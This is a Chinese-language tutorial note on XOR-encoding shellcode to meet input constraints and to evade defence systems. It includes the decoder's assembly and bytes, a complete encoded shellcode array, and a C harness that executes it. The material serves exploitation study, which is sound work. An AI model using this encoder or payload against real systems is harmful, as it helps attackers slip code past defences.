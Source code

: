 ## shellcode编码技术

对shellcode进行编码的原因有两个：

1. 程序往往对输入有要求，比如不能含有尾零，或者必须全部是ASCII等
2. 为了绕过防御系统

这里实现一个最简单的异或运算编码器。注意，它有使用要求和限制：

- 用于异或的key必须是shellcode中没有出现过的字节，否则将出现`0x00`截断
- 在开始和中间不能出现`0x90`，因为它将作为shellcode结束的标志

我们使用上一节得到的通用shellcode作为例子：

编码器[Encoder.cpp](quiver:///notes/B65C7F1E-2862-4CB6-A8F8-A2963382AA68))就是对shellcode逐字节进行最简单的异或操作（代码中选用了`0x44`作为key）。

解码器如下：

```assembly
    add eax, 0x14
    xor ecx, ecx
decode_loop:
    mov bl, [eax + ecx]
    xor bl, 0x44
    mov [eax + ecx], bl
    inc ecx
    cmp bl, 0x90
    jne decode_loop
```

需要注意的是，这个解码器要求在shellcode开始执行时，`eax`已经对准了shellcode的起始位置（也就是说我们要在shellcode执行前有所铺垫，把其地址装入`eax`，这对于已经劫持了控制流的我们来说不难做到），另外正如前面所说，它将把`0x90`视作解码结束。

解码器的二进制码如下：

```
 "\x83\xc0\x14\x33\xc9\x8a\x1c\x08\x80\xf3\x44\x88\x1c\x08\x41\x80\xfb\x90\x75\xf1"
```

组成最终的调试代码：

```c
char shellcode[] = "\x83\xc0\x14\x33\xc9\x8a\x1c\x08\x80\xf3\x44\x88\x1c\x08\x41\x80\xfb\x90\x75\xf1"
"\xd4\xd4\xd4\xb8\x2c\x2e\x4e\x7c\x5a\x2c\x27\xcd\x95\x0b\x2c\x76"
"\x30\xd5\x48\xcf\xb0\xc9\x3a\xb0\x77\x9f\xf3\x40\x6f\xa7\x22\xff"
"\x77\x76\x17\x2c\x31\x37\x21\x36\x10\x77\x96\x20\xcf\x1e\x74\xcf"
"\x0f\x48\xcf\x0d\x58\xcf\x4d\xcf\x2d\x4c\xe9\x79\x2e\x4e\x7c\x5a"
"\x31\x41\xd1\xbb\x13\xbc\xd1\x24\xcf\x01\x78\xcf\x08\x41\x3c\x47"
"\x89\xcf\x1d\x64\x47\x99\x77\xbb\x03\xcf\x70\xff\x47\xb1\xdd\x4b"
"\xfa\x42\x7e\x80\x30\x4c\x85\x8e\x43\x47\x94\x02\xaf\xb5\x7f\x10"
"\x60\x58\x31\xa0\xcf\x1d\x60\x47\x99\x22\xcf\x78\x3f\xcf\x1d\x58"
"\x47\x99\x47\x68\xff\xd1\x1b\xef\x13\x25\x79\x2e\x4e\x7c\x5a\x31"
"\xed\x77\x9f\x17\x17\x2c\x69\x2e\x2b\x26\x2c\x23\x2b\x2b\x20\xcf"
"\x80\x17\x14\x14\x17\xbb\x13\xb8\x17\xbb\x13\xbc\xd4\xd4\xd4\xd4";

int main(){
	_asm{
		lea eax, shellcode
		push eax
		ret
	}
	return 0;
}
```
